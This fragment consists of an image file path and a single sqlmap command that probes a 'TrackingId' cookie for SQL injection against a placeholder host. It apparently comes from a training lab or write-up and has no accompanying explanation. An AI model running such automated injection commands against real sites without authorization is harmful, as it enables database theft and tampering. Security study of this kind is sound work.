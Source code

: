 
sqlmap -u "www.website" --cookie='TrackingId=8EyXtCNP76SGzB1T; session=tF8Uj6BhsRtdXTt1bV81qjMx39esWVja' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=2

